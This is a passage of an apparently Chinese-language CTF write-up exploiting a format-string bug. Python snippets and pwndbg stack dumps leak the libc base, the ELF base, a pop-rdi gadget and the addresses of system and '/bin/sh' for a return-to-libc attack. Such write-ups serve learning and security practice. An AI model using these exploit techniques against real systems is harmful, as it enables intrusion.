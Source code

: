 通过调试, 传入 %p打印时, 打印出0x7ffe31470830, 而 __libc_start_main+240 的地址在0x7ffe31470948, 调试不断加1进行核对地址,最终在 %19$p打印出libc_start_main + 240的地址.然后通过计算即可获取libc基址

```python
# leaking libc base
	sla('>>', str(2))
	sla(':', str(7))
	p = '%19$p'
	sl(p)
	ru('0x')
	libc_start_main = int(r(12),16) - 240
	libc_base = libc_start_main - lib.sym['__libc_start_main']
	li('libc_base:' + hex(libc_base))
	sys_addr = libc_base + lib.sym['system']
	sh_addr  = libc_base + lib.search('/bin/sh').next()
```

### 泄漏elf基址

传入 %14$p查看printf函数中堆栈分布如下


```
05:0028│ rdi  0x7ffc6b02ca80 ◂— 0xa7024343125 /* '%14$p\n' */
06:0030│      0x7ffc6b02ca88 ◂— 0xb8b63dff1d802400
07:0038│ rbp  0x7ffc6b02ca90 —▸ 0x7ffc6b02cac0 —▸ 0x55f4515b5d30 ◂— push   r15
08:0040│      0x7ffc6b02ca98 —▸ 0x55f4515b5d08 ◂— jmp    0x55f4515b5d0b
09:0048│      0x7ffc6b02caa0 —▸ 0x55f4515b5d30 ◂— push   r15
0a:0050│      0x7ffc6b02caa8 ◂— 0x200000000
0b:0058│      0x7ffc6b02cab0 ◂— 0x0
0c:0060│      0x7ffc6b02cab8 ◂— 0xb8b63dff1d802400
```

打印出0x55f4515b5d30 ◂— push   r15, 而这个位置刚好在init函数的起始位置.在文件中偏移为: 0xD30 ( push    r15),这就可以计算elf的偏移了.然后获取main, pop rid的地址.

```python
# leaking elf base
	sla('>>', str(2))
	sla(':', str(7))
	p = '%14$p'
	sl(p)
	ru('0x')
	elf_base = int(r(12),16) - 0xD30
	main_addr = elf_base + 0xC6C
	pop_rdi_ret = elf_base + 0xd93
	li('elf_base:' + hex(elf_base))
```



### 泄漏堆栈中main ret地址

下图为printf函数中的堆栈

```
pwndbg> stack 100
00:0000│ rsp  0x7fffb8e184a8 —▸ 0x55ff36954c55 ◂— nop    
01:0008│      0x7fffb8e184b0 —▸ 0x55ff36954ef8 ◂— xor    ebp, dword ptr [rsi] /* '3. exit' */
02:0010│      0x7fffb8e184b8 —▸ 0x7fffb8e18500 ◂— 0x0
03:0018│      0x7fffb8e184c0 ◂— 0xa32 /* '2\n' */
04:0020│      0x7fffb8e184c8 ◂— 0x7134b9900
05:0028│ rdi  0x7fffb8e184d0 ◂— 0xa7024353125 /* '%15$p\n' */
06:0030│      0x7fffb8e184d8 ◂— 0xc7f0a378134b9900
07:0038│ rbp  0x7fffb8e184e0 —▸ 0x7fffb8e18510 #泄漏该地址, 获取main ret
08:0040│      0x7fffb8e184e8 —▸ 0x55ff36954d08 ◂— jmp    0x55ff36954d0b
09:0048│      0x7fffb8e184f0 —▸ 0x55ff36954d30 ◂— push   r15
0a:0050│      0x7fffb8e184f8 ◂— 0x200000000
0b:0058│      0x7fffb8e18500 ◂— 0x0
```